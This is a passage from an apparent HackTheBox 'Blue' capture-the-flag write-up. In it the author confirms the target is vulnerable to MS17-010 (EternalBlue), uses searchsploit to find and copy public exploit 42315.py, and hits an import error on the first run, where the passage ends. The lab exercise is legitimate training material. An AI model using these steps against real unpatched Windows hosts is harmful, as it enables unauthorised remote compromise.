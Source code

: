 Here, it can be seen that the machine is vulnerable to CVE-2017-0143. 

## Gaining Foothold

To get access over the machine we can use many of the exploits that are prublicly available. I tried using the [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) but didn't work for me. So, had to look at some other exploit. 
We can use `searchsploit` and see if something useful appears there.

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ searchsploit ms17-010
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)      | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Ex | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (M | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution | windows_x86-64/remote/41987.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The `windows/remote/42315.py` appears to be useful (I tried the `windows/remote/2031.py` as well but it didn't work). We can copy it to our working directory

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ searchsploit -m 42315
  Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/Desktop/htb/blue/42315.py
```

And then try to run it.
*As this exploit is pretty old it can be assumed that it would run with Python2.7 instead of Python3.*

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ python2.7 42315.py            
Traceback (most recent call last):
  File "42315.py", line 3, in <module>
    from mysmb import MYSMB
ImportError: No module named mysmb
```
